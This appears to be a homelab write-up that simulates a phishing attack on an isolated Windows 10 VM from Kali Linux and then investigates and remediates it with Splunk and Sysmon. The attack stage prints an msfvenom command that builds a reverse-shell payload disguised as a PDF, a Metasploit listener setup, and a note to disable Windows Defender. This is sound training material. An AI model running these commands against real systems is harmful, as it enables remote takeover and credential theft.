---

# Homelab: Attack and Defence Simulation Project

### Objective
The primary objective of this project is to simulate a cyber-attack, investigate the attack using Splunk, and remediate it.

---

## Project Overview

1. **Stage 1:** Lab Setup
2. **Stage 2:** Machine Configuration
3. **Stage 3:** Attack Simulation
4. **Stage 4:** Investigation and Remediation
5. **Conclusion**

---

## Stage 1: Lab Setup

### 1. Environment Setup

- **Install VirtualBox** and create two virtual machines.

    
- **Machine 1 (Victim):** Windows 10  
    
- **Machine 2 (Attacker):** Kali Linux  
    

### 2. Network Configuration

- **Internal Network Isolation:** Configure both machines to communicate only through an internal network.

- Go to **Settings > Network > Select Internal Network**  

- **Static IP Assignment:** Assign static IPv4 addresses to each machine for consistent communication.

    - Windows 10 (Victim): 192.168.1.10
    
    - Kali Linux (Attacker): 192.168.1.20  
    

---

## Stage 2: Machine Configuration

### Machine 1: Victim (Windows 10)

1. **Install Splunk Enterprise:**
   - Download and install Splunk enterprise to monitor system activities.
   - Navigate to `http://127.0.0.1:8000`for using splunk and login to your account.
   
   

2. **Install Sysmon Add-on for Splunk:**
   - Download and install the Sysmon add-on for advanced monitoring.
   
   - Copy `Splunk_TA_microsoft_sysmon` add-on directory from `Splunk/etc/app` to `Splunk/etc/deployment-apps`.
   

3. **Configure Sysmon:**
Download and configure Sysmon with an XML configuration file for detailed process monitoring.
   - [Download Sysmon](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)
   - [Download Sysmon configuration file](https://github.com/olafhartong/sysmon-modular) 
   
         ./sysmon64 -i ./config.xml -accepteula


4. **Deactivate Windows Defender:**
   Temporarily disable Windows Defender to avoid interference with the simulation.

### Machine 2: Attacker (Kali Linux)

1. **Network Connectivity Check:** Use the `ping` command to confirm connectivity with the victim machine.  
     

2. **Reconnaissance Using Nmap:**
   - Use `nmap` to scan the victim machine for open ports, identifying potential vulnerabilities.  

   

3. **Malware Creation:** Generate a malware executable with `msfvenom` using the `windows/meterpreter/reverse_tcp` payload.

         msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<Your_IP> lport=4444 -f exe -o Resume.pdf.exe
   

4. **Phishing Email:**
    Craft a phishing email with the malware attachment and send it to the victim.  

   

---

## Stage 3: Attack Simulation

### Step 1: Launch `msfconsole` on Kali Linux (Attacker Machine)

1. Launch `msfconsole` and configure it to listen for an incoming connection:
   ```bash
   msfconsole
   use exploit/multi/handler
   set payload windows/x64/meterpreter/reverse_tcp
   set lhost <Your_IP>
   set lport 4444
   options
   exploit
   ```

### Step 2: Execute the Malware on Windows 10 (Victim Machine)

- Open the malware attachment from the phishing email on the victim machine to initiate a reverse shell connection.

### Step 3: Access the Victim Machine
- Connection established 


- use `shell` to execute commands on victim machine
  - Execute commands such as `sysinfo`, `hashdump`, and other shell commands to observe system data and activity.

---

## Stage 4: Investigation and Remediation

### 1. Investigate with Splunk on Windows 10
- Ran `index="main" resume` to get related logs for malware file

- Ran `index="main" 192.168.100.101` to get all entries going to attacker ip

- Fist log after malware execution


- Below are some findings after Investigating splunk logs
   - **Malware file:** Resume.pdf.exe
   - **Destination/Attacker ip:** 192.168.100.101
   - **Process Id:** 1408
   - **Attack time:** 28/10/2024 at 4:24 PM

### 3. Malware Removal and Remediation

- Terminate the malicious process by `END Task`in Task manager.
- Delete the malware executable from Download location.
- Delete phishing mail
- Check for persistent registry entries or scheduled tasks to ensure complete threat removal.

---

## Conclusion

This homelab project provided a comprehensive experience in simulating and defending against cyber-attacks, covering essential stages from initial setup to post-attack remediation. Through hands-on engagement with tools like VirtualBox, Kali Linux, and Splunk, the project demonstrated critical cybersecurity techniques, including network isolation, attack surface discovery, malware creation, phishing tactics, and incident investigation. Utilizing Splunk and Sysmon to trace attack vectors and remediate vulnerabilities deepened understanding of both offensive and defensive cybersecurity operations, showcasing a complete cycle of attack response. This project highlights the real-world applicability of these skills in protecting and securing digital environments against threats.

---

